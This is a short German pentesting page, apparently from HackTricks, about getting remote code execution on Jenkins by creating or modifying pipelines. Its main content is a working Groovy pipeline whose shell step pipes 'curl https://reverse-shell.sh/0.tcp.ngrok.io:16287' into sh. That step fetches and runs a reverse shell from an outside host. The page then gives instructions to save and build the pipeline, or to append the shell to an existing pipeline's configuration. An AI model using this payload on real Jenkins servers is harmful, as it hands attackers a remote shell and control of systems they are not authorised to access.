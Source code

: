 # Jenkins RCE Erstellen/Ändern von Pipelines

{{#include ../../banners/hacktricks-training.md}}

## Erstellen einer neuen Pipeline

Wählen Sie in "Neues Element" (erreichbar unter `/view/all/newJob`) **Pipeline:**

![](<../../images/image (235).png>)

Schreiben Sie im **Pipeline-Bereich** die **Reverse Shell**:

![](<../../images/image (285).png>)
```groovy
pipeline {
agent any

stages {
stage('Hello') {
steps {
sh '''
curl https://reverse-shell.sh/0.tcp.ngrok.io:16287 | sh
'''
}
}
}
}
```
Schließlich klicken Sie auf **Speichern** und **Jetzt bauen**, und die Pipeline wird ausgeführt:

![](<../../images/image (228).png>)

## Ändern einer Pipeline

Wenn Sie auf die Konfigurationsdatei einer konfigurierten Pipeline zugreifen können, könnten Sie sie einfach **ändern, indem Sie Ihre Reverse-Shell anhängen** und sie dann ausführen oder warten, bis sie ausgeführt wird.

{{#include ../../banners/hacktricks-training.md}}
